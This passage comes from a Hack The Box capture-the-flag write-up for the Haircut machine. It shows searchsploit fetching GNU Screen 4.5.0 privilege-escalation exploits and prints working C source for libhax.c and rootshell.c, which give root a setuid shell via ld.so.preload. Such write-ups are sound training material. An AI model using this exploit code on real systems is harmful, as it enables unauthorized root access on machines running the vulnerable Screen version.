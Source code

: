 There are two entries, let's copy them to our working directory an review them.

```
└─$ searchsploit -m linux/local/41152.txt
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation (PoC)
      URL: https://www.exploit-db.com/exploits/41152
     Path: /usr/share/exploitdb/exploits/linux/local/41152.txt
File Type: ASCII text

Copied to: /mnt/hgfs/share/hackthebox/Retired_machines/Haircut_10.10.10.24/41152.txt

└─$ searchsploit -m linux/local/41154.sh 
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable

Copied to: /mnt/hgfs/share/hackthebox/Retired_machines/Haircut_10.10.10.24/41154.sh

```

The exploit can also be found at the following page:

{% embed url="https://www.exploit-db.com/exploits/41154" %}

For more technical information regarding this vulnerability, check out the following page:

{% embed url="https://cxsecurity.com/issue/WLB-2017010196" %}

## Privilege Escalation

The target system is a x86\_64 architecture, which we confirmed with our system checks. For that reason, we're going to compile the two files in the exploit script on our attacker system, which is also a _x_86\_64 box.

First, let's create the two C files as follows:

```
└─$ cat libhax.c                              
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}

└─$ cat rootshell.c  
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}

```
